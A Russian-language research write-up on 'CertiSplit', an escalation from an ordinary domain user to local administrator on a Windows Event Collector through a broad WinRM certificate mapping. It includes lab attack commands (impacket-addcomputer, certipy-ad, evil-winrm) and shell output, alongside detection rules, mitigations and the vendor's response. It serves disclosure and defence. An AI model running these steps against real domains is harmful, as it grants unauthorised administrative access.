



# Неочевидный privesc через WEC и WinRM: обычный сертификат, административный shell


Привет! Сегодня разберём необычный вектор повышения привилегий в Windows, который мне удалось воспроизвести при исследовании **Windows Event Collector (WEC)** и **WinRM certificate authentication**.

Представим ситуацию: у нас есть обычная доменная УЗ без административных прав. Мы получаем для неё легитимный сертификат от корпоративного УЦ, подключаемся к WEC по WinRM HTTPS и оказываемся в PowerShell-сессии **локального администратора коллектора**. Без кражи сертификатов, подмены SID, ESC-атак или компрометации CA.

Звучит странно, но вся магия в одном правиле сопоставления сертификатов. Исследуемый сценарий я назвал "**CertiSplit**". Ниже посмотрим, как он устроен, воспроизведём два варианта, разберём контрольные эксперименты и, конечно, найдём артефакты.

Есть и второй интересный результат: **даже при включённом UAC и стандартном `LocalAccountTokenFilterPolicy=0` сертификатный вход открывал административный shell**. При этом прямой вход по паролю под той же локальной УЗ блокировался. К этому сравнению вернёмся отдельно — оно многое объясняет.

## Теория: при чём здесь WEC и сертификаты?

**Windows Event Collector** — компонент Windows, принимающий события от удалённых источников. В варианте *source-initiated subscription* сами источники отправляют события коллектору. Для взаимодействия используется WS-Management/WinRM, в том числе по HTTPS (`TCP/5986`) с клиентскими сертификатами.

В [документации Microsoft по настройке WEC с сертификатами](https://learn.microsoft.com/en-us/windows/win32/wec/setting-up-a-source-initiated-subscription) предлагается создать локальную учётную запись на сервере-коллекторе, добавить её в `Administrators` и настроить certificate mapping:

```powershell
winrm create winrm/config/service/certmapping?Issuer=<CA_THUMBPRINT>+Subject=*+URI=* '@{UserName="<LOCAL_USER>";Password="<PASSWORD>"}' -remote:localhost
```

В моей лаборатории правило выглядело следующим образом:

```powershell
Issuer   = 8BD6095055F61EACD707227A2DD151D91A2DB5C2
Subject  = *
URI      = *
UserName = SRV01\CERTMAP-ADMIN
Enabled  = true
```

Здесь стоит обратить внимание на три параметра:

- `Issuer` — отпечаток УЦ, выпустившего клиентский сертификат.

- `Subject=*` — правило не ограничено одним конкретным субъектом сертификата.

- `URI=*` — правило применимо не только к ресурсу пересылки событий WEC, но и к другим ресурсам WS-Management, включая **WinRM shell**.

После проверки сертификата WinRM находит подходящее правило и использует указанную в нём локальную УЗ. Если это член `Administrators` и ресурс shell разрешён, получается интересный переход: **сертификат выдан обычному субъекту AD, а сеанс на WEC выполняется от имени другого, привилегированного локального пользователя**.

Схематично:



Это **не обход `Issuer`, `Subject` или `URI`**: далее мы отдельно убедимся, что URI-фильтрация работает корректно. Проблема в широкой политике доверия и правах аккаунта, к которому привязан сертификат.

**Есть важный нюанс:** Microsoft в той же инструкции **указывает, что созданную локальную УЗ можно (тут прошу обратить внимание на то, что это только рекомендация) удалить после настройки WEC**: для самой пересылки событий она не используется для impersonation. То есть опасность возникает, если широкое правило и активный локальный администратор остались на сервере.

## Практика: получаем административный shell

Для тестов использовался следующий стенд:

| Компонент         | Значение                                             |
| ----------------- | ---------------------------------------------------- |
| Домен / CA        | `test.local` / `TEST-ROOT-CA`                        |
| DC + AD CS        | `dc01.test.local` (`192.168.1.1`)                    |
| WEC               | `srv01.test.local` (`192.168.1.20`)                  |
| Целевая ОС        | Windows Server 2019, build `17763.9020`, `KB5099538` |
| WinRM HTTPS       | `5986/TCP`                                           |
| Исходная УЗ       | `TEST\bob` — обычный доменный пользователь           |
| Сопоставленная УЗ | `SRV01\CERTMAP-ADMIN` — локальный администратор      |

### Вариант № 1. Machine-сертификат через MachineAccountQuota

Вдохновившись силой MAQ в Certighost, первоначально я пошёл через создание собственного доменного компьютера. Для этого у `TEST\bob` не было прав администратора домена — достаточно стандартной возможности создавать компьютерные объекты, если она разрешена конфигурацией AD.

Проверим `ms-DS-MachineAccountQuota` через LDAP:

```bash
ldapsearch -x -H ldap://192.168.1.1 -D 'bob@test.local' -W \

  -b 'DC=test,DC=local' -s base ms-DS-MachineAccountQuota
```

Результат:

```powershell
ms-DS-MachineAccountQuota: 10
```

Создаём собственную машинную УЗ:

```bash
impacket-addcomputer -dc-ip 192.168.1.1 \
  -computer-name 'BOBPC01$' \
  -computer-pass '<LAB_MACHINE_PASSWORD>' \
  'test.local/bob'
```

```powershell
Successfully added machine account BOBPC01$
```

Для объекта задавались `dNSHostName=bobpc01.test.local` и соответствующие `HOST/` и `RestrictedKrbHost/` SPN. Затем от имени созданной машины запрашиваем **обычный** сертификат из шаблона `Machine`:

```bash
certipy-ad req \
  -u 'BOBPC01$@test.local' \
  -p '<LAB_MACHINE_PASSWORD>' \
  -dc-ip 192.168.1.1 \
  -target dc01.test.local \
  -ca TEST-ROOT-CA \
  -template Machine \
  -out bobpc01
```

```powershell
Successfully requested certificate
Saved certificate and private key to bobpc01.pfx
```

Никакого ESC-сценария здесь нет. Сертификат **легитимно выпущен для `BOBPC01$`** и содержит ожидаемые данные:

```powershell
Subject: CN=bobpc01.test.local
Issuer: TEST-ROOT-CA
EKU: Client Authentication
Strong SID extension: 1.3.6.1.4.1.311.25.2
```

SID-расширение указывает на созданный компьютер, а не на администратора WEC. Это важно: мы не пытаемся заставить AD CS выдать сертификат на чужую УЗ.

Экспортируем сертификат и ключ в PEM для клиента WinRM:

```bash
openssl pkcs12 -in bobpc01.pfx -clcerts -nokeys \
  -out bobpc01.crt.pem -passin pass:
openssl pkcs12 -in bobpc01.pfx -nocerts -nodes \
  -out bobpc01.key.pem -passin pass:
```

Подключаемся к WEC:

```bash
evil-winrm -i srv01.test.local -S -P 5986 \
  -c bobpc01.crt.pem -k bobpc01.key.pem
```

И получаем:

```powershell
*Evil-WinRM* PS C:\Users\CERTMAP-ADMIN\Documents>
```

Посмотрим, кто мы в системе:

```powershell
whoami /user
whoami /groups
whoami /priv
```

Наблюдаемый результат:

```powershell
User: srv01\certmap-admin
Group: BUILTIN\Administrators (S-1-5-32-544)
Integrity: High Mandatory Level (S-1-16-12288)

Enabled privileges:
  SeDebugPrivilege
  SeBackupPrivilege
  SeRestorePrivilege
  SeTakeOwnershipPrivilege
  SeLoadDriverPrivilege
  SeImpersonatePrivilege
```

**Итого: из обычной доменной УЗ получили полноценную локальную административную WinRM-сессию на WEC.** Причём права `TEST\bob` на самом `SRV01` здесь ни при чём — они определялись локальным пользователем, указанным в certificate mapping.

### Вариант № 2. Обычный User-сертификат без создания компьютера

Далее возник логичный вопрос: а зачем вообще нужен `MachineAccountQuota`, если WinRM ориентируется на выдающий CA, `Subject` и `URI`?

Проверил второй вариант. `TEST\bob` получил сертификат из стандартного шаблона **`User`**, без создания компьютерной УЗ. Посмотрим на содержимое:

```bash
openssl x509 -in bob-user.crt.pem -noout \
  -subject -issuer -ext extendedKeyUsage
```

```powershell
subject=DC=local, DC=test, CN=Users, CN=bob
issuer=DC=local, DC=test, CN=TEST-ROOT-CA
X509v3 Extended Key Usage:
    Microsoft Encrypted File System,
    E-mail Protection,
    TLS Web Client Authentication
```

Повторяем подключение, но уже с сертификатом самого пользователя:

```bash
evil-winrm -i srv01.test.local -S -P 5986 \
  -c bob-user.crt.pem -k bob-user.key.pem
```

```powershell
*Evil-WinRM* PS C:\Users\CERTMAP-ADMIN\Documents> whoami /user

srv01\certmap-admin S-1-5-21-3931055678-3624413536-1687736101-1000
```

Вот это уже гораздо интереснее. **`ms-DS-MachineAccountQuota > 0` не является обязательным условием**. Достаточно возможности получить подходящий клиентский сертификат из доверенной цепочки и активного широкого mapping на WEC. В моём стенде для этого подошёл стандартный `User`.

**Важная оговорка:** не *любой* сертификат автоматически откроет shell. Он должен пройти проверку цепочки и статуса, подходить для клиентской аутентификации и удовлетворять действующему правилу WinRM.
## Контрольные тесты: где проходит граница?

Получить shell — половина исследования. Теперь проверим, за счёт чего он появляется и какие изменения действительно блокируют доступ.

### URI: дело не в обходе, а в слишком широком правиле

Менял только `URI` certificate mapping, оставляя того же выдающего УЦ, `Subject=*`, локального пользователя и клиентский сертификат.

| URI в правиле                                                 | WinRM shell | Пересылка событий WEC   |
| ------------------------------------------------------------- | ----------- | ----------------------- |
| `*`                                                           | **Успешно** | Работает                |
| `http://schemas.microsoft.com/wbem/wsman/1/windows/shell*`    | **Успешно** | Отдельно не проверялась |
| `http://schemas.microsoft.com/wbem/wsman/1/windows/EventLog*` | **Отказ**   | **Работает**            |
| `http://schemas.microsoft.com/wbem/wsman/1/config*`           | **Отказ**   | Отдельно не проверялась |

Самый важный контроль — `EventLog*`. После ограничения ресурса новая Evil-WinRM-сессия не открывалась. При этом я сгенерировал события на разрешённом WEC-источнике и обнаружил их в `ForwardedEvents` на коллекторе:

```powershell
Event ID: 901, 902
Provider: CertiSplitLab
Source: PC01.test.local
Destination: ForwardedEvents
```

То есть **для пересылки событий `URI=*` не потребовался**, а доступ к shell удалось отсечь. Аналогично, отключение сопоставленной локальной УЗ блокировало shell (`WSMan fault code 1309`), но не мешало форвардингу; исключение её из `Administrators` приводило к отказу в административном доступе (`AccessDenied`, код `5`).

Обхода URI selector в этом эксперименте нет: селектор работает, если им воспользоваться.

### Remote UAC: почему `LocalAccountTokenFilterPolicy=0` не спас

Пожалуй, это **самый неожиданный контрольный эксперимент** после получения shell. В Windows есть механизм Remote UAC, который ограничивает удалённое администрирование под локальными учётными записями. При `LocalAccountTokenFilterPolicy=0` (значение по умолчанию) для прямого сетевого входа локального администратора формируется фильтрованный токен. Для стандартного административного PowerShell endpoint это обычно означает отказ в доступе.

И здесь возникает вопрос: **если учётная запись `SRV01\CERTMAP-ADMIN` одна и та же, будет ли Remote UAC одинаково ограничивать парольный вход и вход через сертификат?**

Проверял один и тот же `SRV01\CERTMAP-ADMIN` на одном WinRM endpoint. `EnableLUA=1` оставался включённым. Изменял только `LocalAccountTokenFilterPolicy` и способ аутентификации: пароль либо клиентский сертификат.

| Способ входа                 | `LATFP` | `4624: LogonProcess / Package` | `ElevatedToken` | Shell                       |
| ---------------------------- | ------: | ------------------------------ | --------------- | --------------------------- |
| Пароль `CERTMAP-ADMIN`       |     `1` | `NtLmSsp / NTLM`               | `Yes`           | **Успешно**                 |
| Пароль `CERTMAP-ADMIN`       |     `0` | `NtLmSsp / NTLM`               | `No`            | **WinRMAuthorizationError** |
| Сертификат → `CERTMAP-ADMIN` |     `1` | `Advapi / Negotiate`           | `Yes`           | **Успешно**                 |
| Сертификат → `CERTMAP-ADMIN` |     `0` | `Advapi / Negotiate`           | `Yes`           | **Успешно**                 |

Получается показательная разница: при **одинаковых `EnableLUA=1`, `LATFP=0`, локальной УЗ и WinRM endpoint** парольный вход заканчивается ошибкой авторизации, а сертификатный приводит к привилегированной сессии. Следовательно, дело не в отключённом UAC и не в том, что локальный администратор получил особые права между тестами.

Чтобы это не выглядело как голословная таблица, приведу ключевые поля реальных событий `4624` из эксперимента.

**Прямой парольный вход, `LATFP=0`:**

```yaml
EventID: 4624
TargetUserName: CERTMAP-ADMIN
TargetDomainName: SRV01
TargetLogonId: '0x2372e4'
LogonType: 3
LogonProcessName: NtLmSsp
AuthenticationPackageName: NTLM
SourceNetworkAddress: 192.168.1.3
ElevatedToken: No (%%1843)
```

Сам вход зарегистрирован, но WinRM ответил:

```powershell
WinRM::WinRMAuthorizationError
```



**Теперь сертификатный вход при том же `LATFP=0`:**

```yaml
EventID: 4624
SubjectUserSid: S-1-5-20
SubjectUserName: SRV01$
SubjectDomainName: TEST
SubjectLogonId: '0x3e4'
TargetUserName: CERTMAP-ADMIN
TargetDomainName: SRV01
TargetLogonId: '0x2443d6'
LogonType: 3
LogonProcessName: Advapi
AuthenticationPackageName: Negotiate
ProcessName: C:\Windows\System32\svchost.exe
ElevatedToken: Yes (%%1842)
```

Событие `4672` с тем же `LogonId=0x2443d6` содержало `SeDebugPrivilege`, `SeBackupPrivilege`, `SeRestorePrivilege`, `SeTakeOwnershipPrivilege`, `SeImpersonatePrivilege` и другие привилегии. А `whoami` в **фактически открывшейся** сессии подтвердил `BUILTIN\Administrators` и `High Mandatory Level`.



Для полноты: в успешном парольном тесте с `LATFP=1` использовался `LogonId=0x22cf9a` (`NtLmSsp/NTLM`, `ElevatedToken=Yes`), а в сертификатном тесте с `LATFP=1` — `0x248cec` (`Advapi/Negotiate`, `ElevatedToken=Yes`). Так что мы сравниваем все четыре комбинации, а не два случайных входа.

Откуда разница? По событиям видно, что пути входа различаются. При вводе пароля удалённый локальный администратор проходит через `NtLmSsp`, а при certificate mapping вход сопоставленной УЗ инициируется служебным контекстом WinRM (`Advapi/Negotiate`, `svchost.exe`, `S-1-5-20` — `NETWORK SERVICE`). Для второго варианта в стенде формировался **повышенный** токен даже при `LATFP=0`.

**Что это означает с точки зрения безопасности?** У администратора может возникнуть ложное ощущение, что оставленный `LATFP=0` защищает от удалённого использования локального администратора. В проверенной конфигурации такое предположение неверно: **WinRM certificate mapping приводил к полноценному административному токену, несмотря на Remote UAC restrictions для прямого входа**. Это важное условие эксплуатации CertiSplit и аргумент против использования `LATFP=0` в качестве компенсирующей меры.

При этом важно не смешивать наблюдение с классификацией уязвимости. Результат не доказывает универсальный «UAC bypass» для любых удалённых протоколов и способов аутентификации. Мы видим **разные пути создания токена** и конкретный путь, на котором ожидаемая для прямого сетевого входа фильтрация не препятствует административному сеансу. Разница реальна и подтверждена экспериментом; является ли это самостоятельным дефектом границы безопасности Windows - это отдельный вопрос, на который эти логи сами по себе не отвечают.


> Кстати, в `4624` при сертификатном входе поле IP источника отсутствовало. Это не означает, что соединение локальное: событие описывает служебный вход сопоставленной УЗ. Для установления удалённого адреса понадобятся другие журналы или сетевая телеметрия.

### Отключение доменной УЗ и отзыв сертификата

Наконец, проверил, что произойдёт, если лишить исходного пользователя доступа к домену. После выдачи `bob` сертификата отключил доменную УЗ:

```powershell
Disable-ADAccount -Identity bob
```

Затем **создал новую** WinRM HTTPS-сессию с ранее выданным сертификатом. Результат не изменился — подключение прошло, `whoami` снова показал `SRV01\CERTMAP-ADMIN`.

То есть отключение `TEST\bob` не равнозначно отзыву выпущенного ему сертификата и не мешает использованию независимой локальной УЗ из mapping.

Проверил и обратный сценарий: отозвал сертификат, выпустил свежий CRL и обеспечил его доступность на WEC. Проверка Windows вернула:

```powershell
CRYPT_E_REVOKED
```

После этого **новые подключения по отозванному сертификату блокировались**. Здесь нет обхода CRL: когда актуальный статус отзыва известен целевой системе, проверка сработала.

## Артефакты и детекция

Здесь есть особенность: получить успешный `4624` недостаточно, чтобы доказать именно CertiSplit. Нужны **контекст WEC, состояние mapping и связанная активность WinRM**.

На что обращать внимание:

| Источник | ID / данные | Значение |
|---|---|---|
| Конфигурация WinRM на WEC | `Issuer`, `Subject`, `URI`, `UserName` | Активное сопоставление `Subject=*`, `URI=*` с локальным администратором — первичный риск |
| Security на WEC | `4624` | Служебный вход в mapped user: `Advapi`, `Negotiate`, `LogonType=3`, `ElevatedToken=Yes` |
| Security на WEC | `4672` | Специальные привилегии для того же `LogonId` |
| WinRM / PowerShell | Активность удалённой сессии | Подтверждение фактического создания shell |
| DC (вариант Machine) | `4741` | Создание компьютерной УЗ обычным пользователем |
| CA | `4886`, `4887` | Запрос и выпуск сертификата, если включён аудит УЦ |
| WEC | `ForwardedEvents` | Проверка того, что подписки продолжают работать после изменения mapping |

Конфигурацию можно посмотреть так:

```powershell
winrm enum winrm/config/service/certmapping
```

Или через PowerShell-провайдер:

```powershell
Get-ChildItem WSMan:\localhost\ClientCertificate |
  ForEach-Object { Get-ChildItem $_.PSPath }
```

Для SIEM я бы разделил обнаружение на три уровня: **опасная конфигурация, подтверждение привилегированного входа и обнаружение WinRM shell**. Это позволяет отличать потенциальный риск от фактического использования certificate mapping.

### 1. Аудит конфигурации WinRM

Ищем активное certificate mapping, в котором одновременно выполняются условия:

```text
Subject = *
URI = *
Mapped account ∈ BUILTIN\Administrators
Mapping enabled = true
```

Это индикатор **опасной конфигурации**, но не свидетельство эксплуатации. Проверку следует выполнять по актуальной конфигурации WinRM на WEC, например периодическим сбором настроек или отдельным аудитом конфигурации.

### 2. Rule_1_Привилегированный вход через WinRM certificate mapping

Первое правило корреляции связывает события `4624` и `4672` по идентификатору сеанса входа `LogonId`.

Условия для Event ID `4624` на WEC:

```powershell
TargetUserName = <mapped local admin>
TargetDomainName = <WEC hostname>
LogonType = 3
LogonProcessName = Advapi
AuthenticationPackageName = Negotiate
ElevatedToken = Yes
```

Событие `4672` должно содержать специальные привилегии для той же учётной записи и совпадающий идентификатор входа:

```powershell
4624.TargetLogonId = 4672.SubjectLogonId
```

Время жизни контейнера будет логично указать 120 секунд.

На выходе имеем обнаружение сетевого входа с повышенным токеном, сопровождаемого назначением специальных привилегий. Однако это ещё не доказывает создание интерактивной оболочки.

### 3. Rule_2_Создание WinRM shell после привилегированного входа

Второе правило использует результат первой корреляции и ищет подтверждение создания удалённой оболочки.

Логическая последовательность:

```sql
[WEC] Rule_1_Привилегированный вход через WinRM certificate mapping
      Privileged network logon + special privileges
                 |
                 v
[WEC] WinRM Operational, Event ID 91
      Creating WSMan shell on server
                 |
                 v
[Network telemetry, if available]
      Allowed TCP connection to WEC:5986
                 |
                 v
Alert: WinRM shell after privileged logon
```

Для события WinRM проверяем провайдер `Microsoft-Windows-WinRM`, Event ID `91` (PowerShell Remoting) и, если доступно после парсинга, `ResourceUri` создаваемой оболочки.

Сетевой селектор использует адрес WEC в качестве назначения и порт `5986/TCP`. Если сетевые события не собираются, этот селектор не следует делать обязательным: достаточно связать результат первого правила с событием создания shell.

Для сценария с шаблоном `Machine` цепочку можно дополнительно усилить событиями `4741` (создание компьютерной учётной записи) и `4887` (выдача сертификата). Это отдельный сценарий обнаружения, а не обязательное условие основного правила: при получении сертификата из шаблона `User` события `4741` не будет, и детект, основанный только на создании компьютера, пропустит такой вариант.

## Меры противодействия

1. **Сузить `URI` до `http://schemas.microsoft.com/wbem/wsman/1/windows/EventLog*`** для mapping, предназначенного только для пересылки событий. В эксперименте это блокировало shell, не ломая WEC.

2. Не оставлять без необходимости включённого локального администратора, созданного на этапе настройки WEC; рассмотреть удаление/отключение УЗ и минимизацию её прав.

3. Проверить, какие субъекты могут получить сертификат с Client Authentication от доверенного УЦ. Снижение `MachineAccountQuota` полезно само по себе, но **не решает** вопрос, если доступен стандартный `User`.

4. **Не считать `LocalAccountTokenFilterPolicy=0` достаточной защитой** от этого сценария. В эксперименте она блокировала прямой парольный вход, но не вход через certificate mapping.

5. Ограничить сетевой доступ к `5986/TCP`, инвентаризировать WinRM mappings и проверить доставку CRL/работу отзыва.

6. После изменений протестировать **оба условия**: новые административные shell-сессии не создаются, а события от разрешённых источников продолжают поступать в `ForwardedEvents`.

## Позиция MSRC и выводы

По итогам рассмотрения **Microsoft Security Response Center (MSRC)** сообщил, что случай не соответствует определению уязвимости и не достигает порога для выпуска исправления. По мнению Microsoft, доступ предоставляется явно настроенной политикой certificate mapping, а не вследствие дефекта Windows. CVE не присвоен, bounty не предусмотрен, дальнейшее сопровождение обращения прекращено. При этом материалы переданы ответственной инженерной команде для ознакомления.

Тем не менее исследование выявило практический риск: опасная комбинация `Subject=*`, `URI=*` и локальной административной учётной записи **[описана в официальной документации Microsoft по настройке WEC через HTTPS](https://learn.microsoft.com/en-us/windows/win32/wec/setting-up-a-source-initiated-subscription)**.

Дополнительный эксперимент с `LocalAccountTokenFilterPolicy=0` показал, что Remote UAC не препятствует получению административной WinRM-сессии через это сопоставление, хотя прямая парольная аутентификация той же учётной записи завершается `WinRMAuthorizationError`. Это подтверждённый результат тестирования, но не доказательство отдельной уязвимости UAC.

**Главный вывод:** даже если рассматривать CertiSplit как риск конфигурации, а не уязвимость Windows, рекомендация остаётся практической — ограничивать mapping ресурсом EventLog и не оставлять без необходимости активную локальную административную учётную запись.
